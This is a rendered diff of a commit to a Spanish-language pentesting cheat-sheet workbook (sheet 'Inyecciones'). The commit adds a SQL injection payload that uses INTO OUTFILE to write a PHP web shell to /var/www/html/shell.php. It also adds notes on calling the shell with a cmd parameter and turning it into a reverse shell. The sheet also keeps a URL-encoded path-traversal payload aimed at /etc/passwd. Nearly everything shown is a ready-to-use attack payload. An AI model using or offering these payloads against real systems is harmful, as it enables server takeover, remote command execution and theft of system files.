

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Inyecciones, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures not drawn; removed rows and columns are numbered as before the commit, all else as after; rows hold the shown columns only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Inyecciones)
+++ b/CheatSheet.xlsm (sheet Inyecciones)
-J20 (SQL): (empty)
+J20 (SQL): 1 union select 1,"<?php system($_REQUEST['cmd']); ?>",3 into outfile "/var/www/html/shell.php"-- -
-J20:L20 fill: none
+J20:L20 fill: #F2F2F2
-K20: (empty)
+K20: Para con una Inyeccion de SQL guardar una shell asumiendo que la ruta donde pide el recurso, es la ruta donde esta la pagina web, en este caso /var/www/html/
-L20: (empty)
+L20: Invocar luego con 10.10.10.10/shell.php?cmd=whoami y con esto cargarnos una reverse shell
-row 21:  |  |  |  |  |  |  |  |  |  |  | %2e%2e%2%2e%2e%2%2e%2e%2%2e%2e%2%2e%2e%2etc/passwd
+row 21:  |  |  |  |  |  |  | describe tabla; | En mysql para que nos diga los campos de la tabla |  |  | %2e%2e%2%2e%2e%2%2e%2e%2%2e%2e%2%2e%2e%2etc/passwd
```
Also changed, not shown: sheet Enumeracion & Escaneos, sheet Explotacion & Post-Explotacion, sheet General, sheet Interceptadores & Web.
